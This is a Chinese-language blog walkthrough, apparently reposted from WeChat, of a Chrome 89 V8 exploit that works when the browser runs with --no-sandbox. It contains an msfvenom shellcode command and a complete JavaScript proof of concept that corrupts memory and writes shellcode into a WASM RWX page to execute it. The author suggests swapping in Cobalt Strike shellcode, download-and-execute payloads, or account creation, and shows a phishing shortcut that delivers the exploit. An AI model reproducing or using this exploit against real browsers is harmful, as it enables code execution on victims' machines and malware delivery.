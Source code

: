 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/870vThUuYS0CKSU06uzADg)

  

该漏洞主要利用在 - no-sandbox 模式下，也是有利用场景的，具体要看各位师傅怎么发挥啦！

![](https://mmbiz.qpic.cn/mmbiz_gif/rJALXSMzgelgYXUwsxribAz956ruaQGZZ9gezX82vCPAbp140PrhqtibLiaLnt6KmYJia7UhV1KICRTYojSS3v3f6g/640?wx_fmt=gif)

  

漏洞影响范围

利用条件：未开启沙盒、 X86 架构 CPU 如 Intel、AMD 等、浏览器需运行在 64 位模式、

1. 生成 shellcode

  

```
msfvenom -a x64 -p windows/x64/exec CMD="msg.exe 1 By EDI" EXITFUNC=thread -f num
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelgYXUwsxribAz956ruaQGZZKhfZrTQtMBl1ZA6PLsNo4LvygPo5wNaQkTrvjdib1JI7h2BXHJGwPuQ/640?wx_fmt=png)

当然你也可以选择使用 CS 的 shellcode 进行上线，我这里只是为了做测试，所以只弹了个 msg

师傅们也可以修改 cmd 值的内容，生成 shellcode ，进行下载执行，加账户等操作。

2. 修改 POC  

  

```
<script>
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [shellcode 区域];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
```

wasmCode 的内容无需修改

Chrome 可以直接执行其它高级语言生成的机器码，从而加快运行效率。

wasm 的内存页是 RWX 可读可写可执行的，但是通过 C 转换后的 wasm 并无法执行需要导入库执行的函数

所以我们需要编写一段 wasm 构造一块 RWX 内存页

通过漏洞将 shellcode 覆写 原本属于 wasm 的内存页中

后面调用 wasm 接口时，就触发了我们的 shellcode

（本人不是 PWN 手，如有分析有误 还请师傅们莫见怪）

3. 运行 chrome 打开 poc.html

  

  

```
chrome.exe -no-sandbox
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelgYXUwsxribAz956ruaQGZZ4zJ7icysalghVqrxwMcU7hlx4mpgWiclXy0aHibATCk9mVcgSRvokUiaBw/640?wx_fmt=png)

切到 Chrome 所在目录即可

效果如下

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelgYXUwsxribAz956ruaQGZZjiaYx5fHCCvb2diahKd9kBd9Kwbj4whPFEOA2Sc7Vq8AIHz7eoK3g4Mg/640?wx_fmt=png)

```
测试环境
Windows10 x64 
Chrome 89.0.4389.128
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgelgYXUwsxribAz956ruaQGZZrQIEicgr0SBrJMribYKnGQx1fMgQxBNfVmTyamKIyib1w5h6EX9NqUT2w/640?wx_fmt=png)

关于该漏洞的利用，已经有师傅做了快捷方式钓鱼的形式进行投马、当然还有其它玩法。

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" -no-sandbox file:///C:/Users/admin/Desktop/exploits-master/chrome-0day/EDI.html
```

![](https://mmbiz.qpic.cn/mmbiz_gif/rJALXSMzgelgYXUwsxribAz956ruaQGZZqlufZgVCYOeKx2Vj7DkAibiciaQxDoNOBFCbevGiaxQOXKDrYFd7sY2X6A/640?wx_fmt=gif)